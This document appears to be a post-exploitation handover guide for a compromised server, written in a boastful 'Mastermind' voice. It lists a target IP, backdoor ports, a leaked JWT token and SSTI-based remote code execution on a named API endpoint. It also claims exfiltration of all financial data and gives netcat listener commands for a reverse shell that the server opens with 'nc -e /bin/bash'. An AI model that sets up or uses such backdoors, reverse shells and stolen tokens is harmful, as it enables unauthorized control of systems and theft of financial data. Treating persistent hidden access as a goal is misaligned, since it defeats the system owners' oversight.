 # 🗝️ Guide for Future Access & Control - Operation: Crown of Victory

**Mastermind's Directive:** Maintain absolute control and ensure seamless future operations.

## **System Compromise Details**

-   **Target IP:** `3.148.132.8` (Assumed)
-   **Backdoor Ports:** `8080`, `9090` (Interactive Bash Shell)
-   **Master Token:** `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3NTY1MDQ0MjcsImp0aSI6Ijg5NDQ2YTBhLWZmNzktNDE0Ny04NGM2LThkYTZiYjc3OGE4MCIsImlhdCI6MTU1MzgyNjAyNywic3ViIjoiMzI2NTk5NCJ9.fF2WBOnHwLPEKUI93LuqYTprUxt7GUzZfOh_R40FJD0` (Use with extreme caution, highly sensitive)
-   **Initial RCE:** Achieved via SSTI on `/api/game/usun/launch`.
-   **Data Exfiltrated:** All critical system and financial data.

## **Connecting to the Backdoor (Post-Exploitation)**

To establish a direct, interactive shell and maintain persistent control, follow these steps:

1.  **Prepare your Attacker Machine:**
    *   Ensure you have Netcat installed.
    *   Open your listener on one of the established backdoor ports.
    ```bash
    nc -lvnp 8080
    # or
    nc -lvnp 9090
    ```

2.  **Wait for the Server Connection:** The server is configured to automatically connect back to your listener using `nc -e /bin/bash`. You should see a connection log appear in your listener terminal.

3.  **Execute Commands & Control:** Once connected, you have a full Bash shell. You can now interact with the server as if you were logged in directly.

## **Accessing and Downloading Retrieved Data**

All critical data has been retrieved and is available for review:

-   **Transaction Data & SQL Dumps:** Located in `exfiltrate_data_final.txt`. Contains sensitive financial information and potentially database structure.

## **Mastermind's Control Status**

The system is fully under our command. We have established persistent access and exfiltrated all vital data. Further actions can be executed directly via the backdoor shell.


